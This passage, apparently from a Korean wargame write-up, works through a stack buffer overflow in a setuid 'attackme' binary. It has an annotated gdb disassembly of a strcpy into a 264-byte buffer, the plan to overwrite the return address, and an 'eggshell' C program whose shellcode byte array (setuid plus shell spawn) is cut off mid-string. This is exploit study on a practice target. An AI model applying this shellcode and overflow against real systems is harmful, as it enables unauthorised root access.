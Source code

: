 즉, strcpy 는 문자열을 복사하는 함수인 것이다. 사용자가 입력할 수 있는 문자열을 복사할 위치의 길이 보다 길게 입력하면 된다.
해당 바이너리의 Stack Frame을 확인 하기 위해서는 gdb 를 통해 확인해야 한다.

### 3. gdb attackme

```assembler
0x08048470 <main+0>:	push   ebp
0x08048471 <main+1>:	mov    ebp,esp                  
; 에필로그
0x08048473 <main+3>:	sub    esp,0x108
0x08048479 <main+9>:	sub    esp,0x8
; stack frame
0x0804847c <main+12>:	push   0xc14
0x08048481 <main+17>:	push   0xc14
0x08048486 <main+22>:	call   0x804834c <setreuid>
; setreuid(0xc14, 0xc14)
0x0804848b <main+27>:	add    esp,0x10
0x0804848e <main+30>:	sub    esp,0x8
0x08048491 <main+33>:	mov    eax,DWORD PTR [ebp+12]
; ebp+4 = sfp
; ebp+8 = argc
; ebp+12 = argv
0x08048494 <main+36>:	add    eax,0x4
; eax = argv+4 = argv[1]
0x08048497 <main+39>:	push   DWORD PTR [eax]
0x08048499 <main+41>:	lea    eax,[ebp-264]
0x0804849f <main+47>:	push   eax
0x080484a0 <main+48>:	call   0x804835c <strcpy>
; strcpy(eax,argv[1])
0x080484a5 <main+53>:	add    esp,0x10
0x080484a8 <main+56>:	sub    esp,0xc
0x080484ab <main+59>:	lea    eax,[ebp-264]
0x080484b1 <main+65>:	push   eax
0x080484b2 <main+66>:	call   0x804833c <printf>
0x080484b7 <main+71>:	add    esp,0x10
0x080484ba <main+74>:	leave
0x080484bb <main+75>:	ret
; eip 변조를 해야함
0x080484bc <main+76>:	nop
0x080484bd <main+77>:	nop
0x080484be <main+78>:	nop
0x080484bf <main+79>:	nop
End of assembler dump.
```

현재 Stack Frame은 epb-264만큼이며, ret을 덮어 쓰기 위해서는 ebp+8한 위치 만큼 덮어써야 한다.  
stack = 264 | SPF = 4 | Ret = 4 |
최종적으로는 Ret이 가르키는 주소에 shellcode가 실행될 수 있게 해야 한다.

4. eggshell
출처 : http://pwnbit.kr/7

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_EGG_SIZE 2048
#define NOP 0x90

char shellcode[] =
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80" //setuid(geteuid())
 "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
 "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
```